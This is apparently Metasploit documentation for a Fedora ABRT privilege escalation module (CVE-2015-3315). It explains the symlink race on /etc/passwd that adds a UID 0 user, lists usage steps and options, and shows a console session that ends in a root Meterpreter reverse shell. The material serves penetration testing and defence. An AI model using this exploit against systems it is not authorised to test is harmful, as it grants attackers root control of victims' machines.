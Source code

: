 ## Description

  This module attempts to gain root privileges on Fedora systems with a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured as the crash handler.


## Vulnerable Application

  A race condition in ABRT allows local users to change ownership of arbitrary files (CVE-2015-3315). This module uses a symlink attack on `/var/tmp/abrt/*/maps` to change the ownership of `/etc/passwd`, then adds a new user with UID=0 GID=0 to gain root privileges. Winning the race could take a few minutes.

  This module has been tested successfully on ABRT packaged versions:

  * 2.2.1-1.fc19 on Fedora 19 x86_64
  * 2.2.2-2.fc20 on Fedora 20 x86_64

  Fedora 21 and Red Hat 7 systems are reportedly affected, but untested.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/abrt_raceabrt_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **USERNAME**

  Username for the new UID=0 user (default: random)

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/abrt_raceabrt_priv_esc 
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Writing '/tmp/.C17d3UYQy' (64240 bytes) ...
  [*] Trying to own '/etc/passwd' - This might take a few minutes (Timeout: 900s) ...
  [+] Success! '/etc/passwd' is writable
  [*] Adding pauITBusGM user to /etc/passwd ...
  [*] Writing '/tmp/.u8zOz4c' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:38938) at 2018-02-03 21:29:56 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

